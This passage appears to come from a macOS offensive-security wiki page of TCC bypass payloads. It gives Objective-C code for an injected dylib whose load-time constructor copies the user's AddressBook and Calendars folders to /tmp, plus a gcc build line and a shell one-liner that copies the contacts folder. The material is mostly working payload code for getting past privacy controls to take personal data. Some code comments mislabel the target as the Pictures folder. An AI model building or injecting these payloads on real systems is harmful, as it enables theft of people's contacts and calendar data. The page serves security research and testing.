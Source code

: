 ```objectivec
    NSError *error = nil;    

    // Get the path to the user's Pictures folder
    NSString *picturesPath = [NSHomeDirectory() stringByAppendingPathComponent:@"Library/Application Support/AddressBook"];
    NSString *tmpPhotosPath = @"/tmp/contacts";

    // Copy the contents recursively
    if (![fileManager copyItemAtPath:picturesPath toPath:tmpPhotosPath error:&error]) {
        NSLog(@"Error copying items: %@", error);
    }

    NSLog(@"Copy completed successfully.", error);

    fclose(stderr); // Close the file stream
}
```
{% endtab %}

{% tab title="Shell" %}
Copy `$HOME/Library/Application Support/AddressBook` to `/tmp/contacts`.

```bash
cp -r "$HOME/Library/Application Support/AddressBook" "/tmp/contacts"
```
{% endtab %}
{% endtabs %}

### Calendar

* **Entitlement**: `com.apple.security.personal-information.calendars`
* **TCC**: `kTCCServiceCalendar`

{% tabs %}
{% tab title="ObjectiveC" %}
Copy `$HOME/Library/Calendars` to `/tmp/calendars`.

```objectivec
#include <syslog.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#import <Foundation/Foundation.h>

// gcc -dynamiclib -framework Foundation -o /tmp/inject.dylib /tmp/inject.m

__attribute__((constructor))
void myconstructor(int argc, const char **argv)
{  
    freopen("/tmp/logs.txt", "w", stderr); // Redirect stderr to /tmp/logs.txt

    NSFileManager *fileManager = [NSFileManager defaultManager];
    NSError *error = nil;    

    // Get the path to the user's Pictures folder
    NSString *picturesPath = [NSHomeDirectory() stringByAppendingPathComponent:@"Library/Calendars/"];
    NSString *tmpPhotosPath = @"/tmp/calendars";

    // Copy the contents recursively
    if (![fileManager copyItemAtPath:picturesPath toPath:tmpPhotosPath error:&error]) {
        NSLog(@"Error copying items: %@", error);
    }

    NSLog(@"Copy completed successfully.", error);

```